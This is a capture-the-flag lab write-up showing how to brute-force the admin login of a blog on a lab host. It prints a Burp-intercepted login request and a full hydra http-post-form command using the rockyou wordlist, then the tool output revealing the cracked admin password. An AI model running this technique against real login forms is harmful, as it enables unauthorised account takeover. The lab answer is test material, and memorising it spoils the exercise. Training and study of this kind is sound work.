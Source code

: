 Guess a username, choose a password wordlist and gain credentials to a user account!

*Hint: Username is admin... But what is the password?*

**Answer**

Let's first intercept the POST request using Burp Suite:

~~~
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.79.198
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 777
Origin: http://10.10.79.198
DNT: 1
Connection: close
Referer: http://10.10.79.198/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
~~~

It will help us write the paylaod for hydra. Let's crack the admin password:

~~~
$ hydra -f -l admin -P /data/src/wordlists/rockyou.txt 10.10.79.198 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-17 14:37:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.79.198:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 944.00 tries/min, 944 tries in 00:01h, 14343454 to do in 253:15h, 16 active
[80][http-post-form] host: 10.10.79.198   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.79.198 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-17 14:38:44
~~~